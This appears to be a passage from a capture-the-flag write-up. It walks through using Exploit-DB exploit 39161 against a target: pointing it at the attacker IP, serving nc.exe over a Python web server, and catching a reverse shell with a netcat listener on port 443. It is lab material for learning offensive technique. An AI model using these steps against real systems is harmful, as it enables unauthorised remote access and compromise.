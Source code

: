 I like python and RCE exploits could be a quick win, so I examine the code:

``` bash
searchsploit -x 39161
```

to find the comment:

```
#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!
```

ok, thats easy, modern Kali ship with nc.exe here: `/usr/share/windows-resources/binaries/nc.exe`

Looking through the payload I think we have a vbs script that uploads and runs our nc.exe agaist our attacker.

I copy the exploit and the nc binary to my working directory:

``` bash
searchsploit -m 39161
cp /usr/share/windows-resources/binaries/nc.exe .
```

edit the exploit on line 35 from:

``` python
	ip_addr = "192.168.44.128" #local IP address
```

to

``` python
	ip_addr = "10.10.14.37" #local IP address
```

This suggests I need a local listener on port 443 which I set with:

``` bash
sudo nc -nvlp 443
```


http://127.0.0.1/nc.exe
I open 2 new terminal tabs and open a simple http server in python in one:

``` bash
sudo python -m SimpleHTTPServer 80
```

the other I use to trigger my exploit:

```bash
python 39161.py $TARGET 80 
```


## Exploit

This took a few attempts (as suggested in the exploit) but evetually via troubleshooting we see this in the http server terminal:
